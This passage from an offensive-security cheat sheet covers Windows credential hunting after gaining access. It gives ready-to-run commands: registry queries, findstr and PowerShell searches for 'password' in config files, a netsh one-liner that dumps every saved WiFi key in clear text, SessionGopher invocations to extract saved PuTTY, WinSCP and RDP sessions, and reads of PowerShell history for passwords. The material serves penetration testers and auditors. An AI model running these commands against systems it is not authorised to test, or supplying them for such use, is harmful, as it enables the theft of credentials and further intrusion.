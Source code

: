 #### Read a value of a certain sub key

```text
REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList
```

**Files containing password**s **inside them?**

```text
findstr /si password *.xml *.ini *.txt *.config 2>nul
```

```text
Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"
```

#### WiFi Passwords

```text
netsh wlan show profile
netsh wlan show profile <SSID> key=clear
```

Oneliner method to extract wifi passwords from all the access point.

```text
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

#### Passwords Stored In Services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)

```text
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

#### Powershell History

```text
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```

## Enumeration Script

I’ve created a Powershell script which pretty much automates all of the above. You can check it out [here](https://github.com/absolomb/WindowsEnum).
